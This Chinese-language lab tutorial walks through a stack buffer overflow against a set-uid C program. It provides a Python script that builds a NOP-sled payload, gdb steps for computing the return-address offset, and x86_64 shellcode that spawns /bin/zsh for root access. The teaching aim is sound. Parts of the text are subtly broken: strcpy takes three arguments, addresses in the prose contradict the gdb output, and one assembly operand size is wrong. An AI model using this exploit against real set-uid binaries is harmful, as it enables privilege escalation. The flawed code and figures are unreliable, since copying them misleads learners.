

# 实验环境

- 架构：x86_64
- 操作系统：Ubuntu 22.04（WSL）
- Shell 命令：bash + zsh

# 前言

缓冲区溢出攻击（Buffer Overflow Attack）是计算机安全领域中一种经典的攻击技术，攻击者通过向程序的缓冲区写入超出其容量的数据，从而覆盖相邻的栈区域，进而改变程序的执行流程，实现执行恶意代码或提升权限等目的。

由于目前操作系统的安全性较高，实现了 ASLR（对程序内存中的一些关键数据区域进行随机化, 包括栈的位置、堆和库的位置等），让攻击者难以猜测到所注入的恶意代码在内存中的具体位置。因此在本实验中，暂时使用下面的命令关闭这一机制:

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

:::note[ASLR 是什么？]
地址空间随机化 (address space layout randomization, ASLR) 是针对缓冲区溢出攻击的防御措施之一。
:::

> [!TIP]
> randomize_va_space 中的 va 即 virtual address。

由于缓冲区溢出攻击依赖于**函数调用和栈**的实现机制，故在阅读本文之前，如果你还不了解函数调用与栈的知识，建议先阅读相关资料进行补充[^buffer_overflow_c]。

[^buffer_overflow_c]: 本次实验参考《计算机安全导论：深度实践（杜文亮）》第四章 1-6 节，前两节讲到了函数调用与栈的背景知识，电子版书籍资源可以在 [Z-Library](https://zh.z-library.sk/) 找到.

# 用户程序

在本实验中，我们采用的用户程序如下，用于模拟一个具有文件读取功能的用户程序：

```c
int foo(char *str)  {  
    char buffer[100];
    strcpy(buffer, str, 320); 
    return 1;  
}  

int main()  {  
    char str[400]; FILE *badfile; 
    badfile = fopen("/path/to/badfile", "r");  
    fread(str, sizeof(char), 320, badfile); 
    foo(str);  
    printf("Returned Properly\n");  
    return 0;  
}
```

这个用户程序需要具有以下几个特征，才有利于我们对它进行缓冲区溢出攻击：

1. 该程序的必须具有 set-uid 权限
2. 攻击者能够拿到程序副本

:::note[为什么要具有 set-uid 权限？]
set-uid 是类 Unix 系统中的一个重要概念，用于提升程序的权限。它允许用户在执行某个程序时，临时获得该程序所有者的权限，而不是执行者本身的权限。
:::

我们现在知道用户程序能够读取文件内容，并且还要通过 `strcpy` 将文件内容复制到 `buffer` 数组中，那么怎么进行缓冲区溢出攻击呢？

答：我们要为用户定制一个特殊的文件，使 `strcpy` 函数能够向 `buffer` 数组中写入超出 100 字节的内容，将函数的返回地址篡改为我们恶意程序的地址。

具体要怎么做呢？

我们可以从 `strcpy` 函数入手，下面是该函数的函数签名：

```c
char* strcpy( char* dest, const char* src );
```

我们知道 `strcpy` 函数的复制逻辑是逐一字节复制，当源字符串遇到 `\0` 时就结束复制。那么我们就可以利用这一特性，只要保证我们的恶意文件中没有 `\0` 就能将 `buffer` 填满并溢出，再通过精确地计算，覆盖掉原有的函数返回地址，跳转到我们恶意程序的地址。

:::note[为什么不用 memcpy 呢？既能够指定长度，还不怕遇到 \0]

在给定用户程序的情况下，最好不要修改用户程序的代码逻辑，否则就失去了攻击的意义。

:::




这里需要明确一些用语的含义，我们的恶意文件中包含：

1. 填充 `buffer` 数组的无意义内容
2. 覆盖 `buffer` 数组之外的其他部分区域的无意义内容和新的函数返回地址
3. 无操作雪橇[^nop_slide]部分
4. 恶意代码


[^nop_slide]: No Operation Slide，无操作雪橇，是一系列非操作指令，意图当 CPU 程序分支到任何内存地址时，将 CPU 的指令执行流程滑动到其最终的期望目的地.

# 恶意文件

我们现在需要构造一个恶意文件 `badfile`，由于该文件内容为二进制格式，为了方便起见，我们使用 Python 脚本来生成该文件：

```python
shellcode = (
    "\x48\x31\xd2"                 # xor rdx, rdx
    "\x52"                         # push rdx
    "\x48\xb8\x2f\x62\x69\x6e\x2f\x7a\x73\x68"  # mov rax, '/bin/zsh'
    "\x50"                         # push rax
    "\x48\x89\xe7"                 # 11100111 mov rdi, rsp
    "\x48\x31\xf6"                 # 11110110 xor rsi, rsi
    "\x48\x31\xC0"                 # 01001000 + 00110001 + 11000000 xorq %rax, %rax
    "\xB0\x3B"                     # mov $59, %al
    "\x0f\x05"                     # syscall
).encode('latin-1')

content = bytearray(0x90 for _ in range(320))

start = 320 - len(shellcode)
content[start:] = shellcode

ret = 0x7fffffffda10 + 256 + 160
content[120:128] = (ret).to_bytes(8, byteorder='little')

file = open("badfile", "wb")
file.write(content)
file.close()
```

在上面的代码中，我们先不用关心 `shellcode` 部分，后面会详细讲解。我们先来看 `content` 变量的构造：我们创建了一个长度为 320 字节的字节数组，并将其初始化为 `0x90`，即 x86 架构中的 NOP 指令（无操作指令）。接着，我们将 `shellcode` 部分放置在 `content` 的末尾。

剩下有两个部分我们需要注意：

1. `ret` 变量：这是我们要覆盖的函数返回地址，我们需要将其设置为恶意代码在内存中的地址。
2. `content[120:128]`：这是我们将 `ret` 地址写入到 `content` 中的位置，覆盖掉原有的函数返回地址。

接下来，我们逐一解释这两个部分。

前面我们提到，攻击者需要能够拿到程序的副本，原因就是我们现在需要通过 gdb 来调试用户程序，确定各种变量的地址。

我们可以通过下面的 gdb 命令来运行用户程序，并在 `main` 和 `foo` 函数的入口处设置断点，获取得到 `str` 和 `buffer` 数组的地址：

```bash
gdb ./user_program
(gdb) b main
(gdb) b foo
(gdb) run
(gdb) p &str
$1 = (char (*)[400]) 0x7fffffffda10
(gdb) continue
(gdb) p &buffer
$2 = (char (*)[100]) 0x7fffffffd990
(gdb) p $rbp
$3 = (void *) 0x7fffffffda00
(gdb) p/d 0x7fffffffda00-0x7fffffffd990
$4 = 112
```

下面逐一解释上面的命令：

- `gdb ./user_program`: 启动 gdb 并加载用户程序。
- `run`: 开始运行程序，直到遇到断点。
- `b`: 设置断点。
- `p`: print 的缩写，用于打印变量的值或表达式的结果。
- `continue`: 继续执行程序，直到下一个断点或程序结束。
- `&str`: 数组 `str` 的地址，`buffer` 同理。
- `$rbp`: 当前栈帧的基址指针。

通过上面的调试，我们得到了 `str` 数组的地址为 `0x7fffffffd310`，`buffer` 数组的地址为 `0x7fffffffd290`。我们还计算出了栈基址指针与 `buffer` 数组的偏移量为 112 字节。

根据这些信息，我们可以计算出两个信息：

1. 函数返回地址的区域

    $ bias = \text{\textdollar}rbp - \&buffer + 8 $

    函数返回地址的内存地址偏移量为 `buffer` 数组地址到栈帧基址指针 `rbp` 之间的偏移量再加上 8 字节（因为返回地址紧跟在 `rbp` 之后，占用 8 字节）。根据上面的调试结果，我们可以计算出偏移量为 120 字节。

    因此在 shellcode 中，我们需要在 `content` 数组的第 120 到 128 字节处写入新的返回地址。

2. 恶意程序的地址

   $ ret = \&str + 320 - len(shellcode) $

   而得益于我们的 nop slide 设计，恶意程序的地址可以选择函数返回地址与恶意程序之间的任意位置。

不过需要注意的是，以上的结论均基于 gdb 调试工具。实际运行时，gdb 会向程序注入一些额外的代码和数据，因此栈也会更深。所以我们需要根据实际运行时的栈布局，调整其中的 +256 即 gdb 内容偏移量（需要多次尝试）；另外 +160 是为了直接进入通往恶意代码的 nop 滑梯，这儿的偏移量选取范围 +128 到 +288 内均可。


> [!TIP]
> so，`ret` 是我们要进行恶意跳转的地址，`content[120:128]` 是我们要覆盖的函数返回地址所在的区域。


# 恶意程序

如果阿拉丁神灯精灵答应帮你实现一个愿望，你想要实现什么愿望？

那当然是无时无刻满足我无穷无尽的愿望！

对于攻击者来说也一样，最好我的恶意程序能够得到你主机上的 root 权限，有权运行一切指令。

这种程序通常被称为 shellcode，因为它通常会启动一个 shell 进程，允许攻击者执行任意命令。所以我们可以考虑编写一个 shell 程序作为我们的恶意程序：

```c
int main() {
    execve("/bin/zsh", NULL, NULL);
    return 0;
}
```

这个程序的作用是调用 `execve` 函数来执行 `/bin/zsh`，从而启动一个新的 shell 进程。如果攻击成功，攻击者就可以通过这个 shell 获得系统的控制权（前提是这个用户程序实现了 set-uid 权限，否则就算攻击成功也拿不到 root 权限）。

看完这段代码，聪明的你应该会注意到，`execve` 函数的第一个参数是一个字符串常量 `/bin/zsh`，而字符串常量在 C 语言编译器中会自动添加 `\0` 作为结尾，这就会导致我们在构造恶意文件时会因为 `\0` 会导致 `strcpy` 函数提前结束复制。

为了解决这个问题，我们可以使用[汇编语言](#1-to-汇编)来编写我们的恶意程序，最后再转换为[二进制文件](#2-to-二进制文件)。这样我们就可以完全控制程序的每一个字节，避免恶意程序的二进制文件中出现 `\0` 字符。

## 1. to 汇编

下面是一个使用汇编语言编写的恶意程序示例：

```asm
xorq  %rdx, %rdx
pushq %rdx
movq  $0x2f62696e2f7a7368, %rax
pushq %rax
movq  %rsp, %rdi
xorq  %rsi, %rsi
xorq  %rax, %rax
movq  $59, %al
syscall
```

此处若有疑问，可以参考下面的 [QA 环节](#qa-环节)

在这段汇编代码中，我们首先将 `/bin/zsh` 字符串通过 ASCII 码表转换为十六进制数 `0x2f62696e2f7a7368`，然后将其通过 `rax` 寄存器压入栈中。接着，我们设置好 `execve` 系统调用所需的参数：

1. 第一个参数存放在 `rdi` 寄存器中，指向 `/bin/zsh` 字符串的地址
2. 第二个参数存放在 `rsi` 寄存器中，设置为 `NULL`
3. 第三个参数存放在 `rdx` 寄存器中，设置为 `NULL`

在上述汇编代码中，我们通过 `xor` 异或指令间接将 `rsi` 和 `rdx` 寄存器清零，避免了 `\0` 字符的产生。

最后，我们将系统调用号 `59`（对应 `execve`）加载到 `rax` 寄存器中，并通过 `syscall` 指令触发系统调用。

### QA 环节

**Q: 怎么将代码转换为汇编的？**

A: 上述编译代码是以目标为导向，查询相关规范手册编写的：以执行 `execve` 系统调用为目标，查询 x86_64 架构的系统调用规范 **System V AMD64 ABI**[^system_v_amd64_abi]，了解 `execve` 系统调用的参数传递方式和系统调用号，然后编写汇编代码实现该功能。

[^system_v_amd64_abi]: [System V Application Binary Interface AMD64 Architecture Processor Supplement](https://refspecs.linuxbase.org/elf/x86_64-abi-0.99.pdf).

**Q: 怎么知道参数存放在哪个寄存器的？**

A: 在 x86_64 架构中，系统调用的参数是通过寄存器传递的。具体来说，前六个参数分别存放在 `rdi`、`rsi`、`rdx`、`rcx`、`r8` 和 `r9` 寄存器中。

**Q: 我该如何查询我的操作系统中 execve 的系统调用号？**

A: Windows 系统由于更加靠近用户端，所以系统调用号并不公开；Linux 系统则不同，可以通过查看内核源码文件 `unistd_64.h` 来获取系统调用号；如果是 32 位系统，就是 `unistd_32.h`。

## 2. to 二进制文件

现在，我们已经有了恶意程序的汇编代码，如何转换为二进制文件呢？

这里推荐使用[在线转换器](https://defuse.ca/online-x86-assembler.htm)。

当然！如果你对原理充满热情！想要了解指令-机器码的具体对应关系，然后花上一个下午手搓机器码，可以查阅 **x86 架构指令集参考手册**[^x86_reference]。在查阅过程中，为了避免来回翻找的麻烦，推荐一个网站：[x86 and amd64 instruction reference](https://www.felixcloutier.com/x86/)，在 url 后面输入你要查阅的指令跳转到对应的页面即可。

[^x86_reference]: Intel64 And IA-32 Architectures Software Developer's Manual Volume 2 (2A, 2B, 2C & 2D): Instruction Set Reference, A-Z.

经过转换，我们就可以得到如下机器码：

```python
shellcode = (
    "\x48\x31\xd2"             # xorq %rdx, %rdx
    "\x52"                     # pushq %rdx
    "\x48\xb8\x2f\x62\x69\x6e\x2f\x7a\x73\x68"  # movq '/bin/zsh', %rax
    "\x50"                     # pushq %rax
    "\x48\x89\xe7"             # 11100111 movq %rsp, %rdi
    "\x48\x31\xf6"             # 11110110 xorq %rsi, %rsi
    "\x48\x31\xC0"             # 11000000 xorq %rax, %rax
    "\xB0\x3B"                 # movq $59, %al
    "\x0f\x05"                 # syscall
).encode('latin-1')
```

到这里，我们的恶意程序就实现完成了！
